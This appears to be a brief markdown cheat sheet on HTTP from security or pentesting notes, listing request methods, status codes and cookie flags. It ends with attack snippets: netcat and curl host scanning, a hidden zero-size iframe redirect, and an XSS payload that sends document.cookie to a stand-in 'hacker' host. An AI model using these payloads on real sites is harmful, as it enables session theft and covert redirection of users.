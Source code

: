 # HTTP

## Request methods

* GET: Passes all query material in the URL query string.
* POST: Passes all requested data in the HTTP request body.

## Response codes

* 1xx  Informational
* 100  Continue
* 2xx  Success
* 200  OK
* 3xx  Redirection
* 301  Moved Permanently
* 302  Found
* 4xx  Client Error
* 401  Unauthorized
* 403  Forbidden
* 404  Not Found
* 408  Request Timeout
* 5xx  Server Error
* 500  Internal Server Error

## Cookies

* Secure: only send over encrypted channel
* HttpOnly: prevents JavaScript from accessing the cookie

## Request with netcat, telnet

```bash
nc <target> 80
HEAD / HTTP/1.1

```

```bash
for i in `cat list.txt` ; do curl -isk -X HEAD http://$i/ > $i 2>&1 ; echo Scanned $i ; done
```

## Browser redirection

```html
<iframe SRC="http://hacker/document" height="0" width="0">
```

## Cookie stealing

```html
<script>new Image().src="http://hacker/img.png?"+ document.cookie;</script>
```

